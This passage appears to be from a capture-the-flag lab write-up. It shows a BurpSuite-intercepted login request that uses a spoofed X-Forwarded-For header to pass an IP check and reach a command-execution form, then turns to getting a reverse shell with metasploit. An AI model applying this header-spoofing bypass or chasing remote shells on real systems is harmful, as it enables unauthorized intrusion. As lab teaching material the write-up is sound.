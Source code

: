 Let's intercept the request in BurpSuite and add a `X-Forwarded-For` variable set to something in the expected IP range:

~~~
POST /index.php HTTP/1.1
Host: shell.harder.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://shell.harder.local/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Connection: close
Cookie: PHPSESSID=21sppscro6foikfi7m788f79c0
X-Forwarded-For: 10.10.10.10
Upgrade-Insecure-Requests: 1

action=set_login&user=evs&pass=9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
~~~

We are now displayed with a form that allows to execute a command (make sure you keep intercepting the requests in BurpSuite to add the `X-Forwarded-For` parameter):

![execute-command.png](files/execute-command.png)

## Reverse shell

After trying several reverse shells in python, PHP and shell script without success, I eventually decided to run a reverse shell in metasploit to get a meterpreter.

